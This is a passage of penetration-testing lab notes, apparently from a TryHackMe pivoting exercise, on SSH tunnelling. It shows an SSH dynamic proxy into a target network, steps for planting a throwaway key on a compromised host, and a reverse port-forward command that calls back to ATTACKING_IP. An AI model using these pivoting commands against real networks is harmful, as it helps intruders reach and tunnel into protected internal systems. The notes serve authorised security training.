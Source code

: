 Proxies are made using the `-D` switch, for example: `-D 1337`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:

set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell:

```bash
ssh -D 8000 user@target.thm -fN
```

### 4.3 Reverse Connections

Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine *from* the target -- be it by using credentials, or preferably a key based system. Before we can make a reverse connection safely, there are a few steps we need to take:

1. First, generate a new set of SSH keys and store them somewhere safe (`ssh-keygen`):This will create two new files: a private key, and a public key.
    
    ![https://assets.tryhackme.com/additional/wreath-network/62b2e09ba985.png](https://assets.tryhackme.com/additional/wreath-network/62b2e09ba985.png)
    
2. Copy the contents of the public key (the file ending with `.pub`), then edit the `~/.ssh/authorized_keys` file on your own attacking machine. You may need to create the `~/.ssh` directory and `authorized_keys` file first.
3. On a new line, type the following line, then paste in the public key:`command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

The final entry in the `authorized_keys` file should look something like this:

![Untitled](Pivoting%207636e/Untitled%202.png)

Next. check if the SSH server on your attacking machine is running:`sudo systemctl status ssh`

If the service is running then you should get a response that looks like this (with "active" shown in the message):

![https://assets.tryhackme.com/additional/wreath-network/08746aa1021e.png](https://assets.tryhackme.com/additional/wreath-network/08746aa1021e.png)

If the status command indicates that the server is not running then you can start the ssh service with:`sudo systemctl start ssh`

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN`
